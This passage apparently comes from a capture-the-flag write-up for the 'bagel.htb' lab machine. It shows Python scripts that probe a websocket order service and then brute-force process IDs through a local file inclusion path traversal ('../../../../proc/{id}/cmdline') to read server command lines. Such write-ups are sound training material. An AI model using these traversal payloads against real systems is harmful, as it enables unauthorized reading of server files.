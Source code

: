 The application was very simple. Two routes. The first one had the LFI vulnerability in it. The second one was for the Orders page. It requested the list of orders from using websockets on port 5000.

The order code also had a comment about running the application dll and using an SSH key to connect to the server.

I copied the code in a file and started playing with it. I started by running the code from the application.

```python
#!/usr/bin/env python3

import websocket,json

ws = websocket.WebSocket()
ws.connect("ws://bagel.htb:5000/")
order = {"ReadOrder":"orders.txt"}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(result)
```

```bash
$ ./ws.py
{
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "1:06:36",
  "RemoveOrder": null,
  "WriteOrder": null,
  "ReadOrder": "order #1 address: NY. 99 Wall St., client name: P.Morgan, details: [20 chocko-bagels]\norder #2 address: Berlin. 339 Landsberger.A., client name: J.Smith, details: [50 bagels]\norder #3 address: Warsaw. 437 Radomska., client name: A.Kowalska, details: [93 bel-bagels] \n"
}
```

The result showed that I might be able to remove and write orders. It also added parameters that were not in the code.

I tried using 'ReadOrder' to read something other than 'orders.txt'. That failed. I tried using 'WriteOrder' to write to different files. The content I passed replaced the original orders. I tried adding parameters like 'Path' to write somewhere else, but it did not appear to do anything. I tried to use 'RemoveOrder' also, this didn't change anything either.

I experimented with the application a lot, but failed to exploit anything. Then I realized that I might be able to extract the actual application with the LFI if I knew where it was on the server. I wrote a small script to read all the command line it could find in '/proc/ID'.

```python
#!/usr/bin/env python3
import requests

for id in range(1, 20000):
    response = requests.get(f'http://bagel.htb:8000/?page=../../../../proc/{id}/cmdline')
    text = response.text
    if len(text) > 0 and text != 'File not found':
        print(f'{id} - {text}')
```
